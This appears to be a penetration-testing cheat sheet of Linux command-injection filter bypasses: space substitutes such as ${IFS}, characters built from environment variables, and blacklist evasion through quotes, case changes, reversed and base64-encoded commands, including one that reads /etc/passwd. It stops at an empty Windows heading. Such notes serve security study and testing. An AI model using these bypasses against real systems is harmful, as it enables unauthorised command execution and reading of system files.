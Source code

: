 ## Linux

## Filtered Character Bypass

| Code                    | Description                                                                        |
| ----------------------- | ---------------------------------------------------------------------------------- |
| `printenv`              | Can be used to view all environment variables                                      |
| **Spaces**              |                                                                                    |
| `%09`                   | Using tabs instead of spaces                                                       |
| `${IFS}`                | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}`              | Commas will be replaced with spaces                                                |
| **Other Characters**    |                                                                                    |
| `${PATH:0:1}`           | Will be replaced with `/`                                                          |
| `${LS_COLORS:10:1}`     | Will be replaced with `;`                                                          |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one (`[` -> `\`)                                                |

---
## Blacklisted Command Bypass

|Code|Description|
|---|---|
|**Character Insertion**||
|`'` or `"`|Total must be even|
|`$@` or `\`|Linux only|
|**Case Manipulation**||
|`$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`|Execute command regardless of cases|
|`$(a="WhOaMi";printf %s "${a,,}")`|Another variation of the technique|
|**Reversed Commands**||
|`echo 'whoami' \| rev`|Reverse a string|
|`$(rev<<<'imaohw')`|Execute reversed command|
|**Encoded Commands**||
|`echo -n 'cat /etc/passwd \| grep 33' \| base64`|Encode a string with base64|
|`bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`|Execute b64 encoded string|

---
## Windows
